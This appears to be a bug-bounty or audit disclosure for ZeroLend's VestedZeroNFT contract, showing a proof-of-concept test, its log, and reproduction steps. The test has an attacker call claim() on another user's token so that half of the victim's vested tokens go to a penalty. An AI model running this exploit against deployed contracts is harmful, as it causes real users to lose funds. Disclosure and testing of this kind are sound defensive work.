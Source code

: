 ```typescript
    console.log("Zero balance of vestZeroNFT contract", await zero.balanceOf(vest.target));
    let lastTokenId = await vest.lastTokenId();
    console.log("Ant address: ", ant.address);
    console.log("The hacker call the claim function of the vestZeroNFT contract to claim tokenID of Ant"); 
    console.log("The address of the owner of the TokenId: ", await vest.ownerOf(lastTokenId));
    console.log("Zero balance of StakingBonus before the attack", await zero.balanceOf(stakingBonus.target));
    await vest.connect(attacker).claim(lastTokenId); 
    console.log("Zero balance of Ant after griefing attack", await zero.balanceOf(ant.address));
    console.log("Zero balance of vestZeroNFT after attack", await zero.balanceOf(vest.target));
    console.log("Zero balance of StakingBonus before the attack", await zero.balanceOf(stakingBonus.target));
    console.log("The unclaimed amount of the tokenID", await vest.unclaimed(lastTokenId));

  });
```

Test Log: https://drive.google.com/file/d/1oRfOksMKoIDuJzXbGlB-FcXaxta9lX9b/view?usp=sharing

```
Mint a VestedZeroNFT for Ant by calling mint() function of VestedZeroNFT contract
Zero balance of Ant 0n
Zero balance of vestZeroNFT contract 20000000000000000000n
Ant address:  0x70997970C51812dc3A010C7d01b50e0d17dc79C8
The hacker call the claim function of the vestZeroNFT contract to claim tokenID of Ant
The address of the owner of the TokenId:  0x70997970C51812dc3A010C7d01b50e0d17dc79C8
Zero balance of StakingBonus before the attack 0n
Zero balance of Ant after griefing attack 10000000000000000000n
Zero balance of vestZeroNFT after attack 0n
Zero balance of StakingBonus before the attack 10000000000000000000n
The unclaimed amount of the tokenID 0n
    ✔ Griefing attack to cause users to loose zero token (106ms)
```

So when mint for the user Ant, 20 Zero is spent. 
So here the attacker call the claim function for the tokenId of Ant. 
Now after claim, Ant has received only 10 Zero and the unclaimed amount is 0. 
10 Zero is sent to StakingBonus contract. 
So Ant lost 10 Zero token, means 50% as the penalty. 

Test POC code: 

Step 1: 
First clone the governance repository: 
```
git clone https://github.com/zerolend/governance.git
```

Step2: Apply Git patch file

Bug3_diff.patch link: https://drive.google.com/file/d/1RDt9VaiWVZfa9e287mJHU7HxGZQ2QbzF/view?usp=sharing

Apply the Patch by Git command using Git bash shell
```bash
git apply Bug3_diff.patch
```
